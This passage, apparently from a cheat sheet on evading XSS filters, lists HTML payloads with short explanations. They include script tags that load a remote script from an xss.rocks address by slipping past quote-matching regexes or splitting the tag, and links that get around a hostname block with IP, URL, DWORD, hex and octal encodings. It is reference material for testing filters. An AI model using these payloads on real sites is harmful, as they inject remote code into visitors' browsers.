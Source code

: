 
Here's an XSS example which works if the regex won't catch a matching pair of quotes but instead will find any quotes to terminate a parameter string improperly:

```html
<SCRIPT a=">'>" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

This XSS still worries me, as it would be nearly impossible to stop this without blocking all active content:

```html
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

### URL String Evasion

The following attacks work if `http://www.google.com/` is programmatically disallowed:

#### IP Versus Hostname

```html
<A HREF="http://66.102.7.147/">XSS</A>
```

#### URL Encoding

```html
<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>
```

#### DWORD Encoding

Note: there are other of variations of DWORD encoding - see the IP Obfuscation calculator below for more details:

```html
<A HREF="http://1113982867/">XSS</A>
```

#### Hex Encoding

The total size of each number allowed is somewhere in the neighborhood of 240 total characters as you can see on the second digit, and since the hex number is between 0 and F the leading zero on the third hex quote is not required:

```html
<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>
```

#### Octal Encoding

Again padding is allowed, although you must keep it above 4 total characters per class - as in class A, class B, etc:

```html
<A HREF="http://0102.0146.0007.00000223/">XSS</A>
```

#### Base64 Encoding
